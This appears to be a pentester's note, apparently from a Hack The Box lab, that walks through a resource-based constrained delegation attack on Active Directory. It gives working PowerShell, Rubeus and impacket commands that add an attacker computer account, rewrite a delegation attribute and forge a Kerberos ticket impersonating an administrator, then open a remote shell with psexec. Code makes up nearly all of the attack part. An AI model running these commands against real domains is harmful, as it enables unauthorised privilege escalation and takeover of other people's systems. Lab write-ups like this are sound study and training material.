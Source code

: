 Full control of a computer object can be used to perform a resource based constrained delegation attack.

Abusing this primitive is possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account:

```
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:

```
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

```
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

What do to with the ticket:
1. save the ticket to file in Kali (remove all the spaces before each line!)
2. Decode the ticket from b64:
	`base64 -d ticket.kirbi > ticket.kirbi.b64`
3. Use impacket's ticketconverter.py to convert the ticket to .ccache format:
	`ticketConverter.py ticket.kirbi.b64 ticket.ccache`
	- `ticket.kirbi.b64`: the original ticket in base64 format
	- `ticket.ccache`: the ccache ticket will be saved in this file
4. `KRB5CCNAME=ticket.ccache psexec.py -k -no-pass support.htb/administrator@dc.support.htb`
	- `-k`: specify kerberos
	- `-nopass`: specify no password
	- `support.htb/administrator@dc.support.htb`: use the fully qualified domain

> Check the output of `sudo nmap -p [ports] [ip] -Pn -A -sCV -O` for the clock skew! If it is off by more than around 5 seconds then you cannot connect, because Kerberos is time-sensitive. Use `sudo rdate -n 10.10.11.174` to sync time with the host.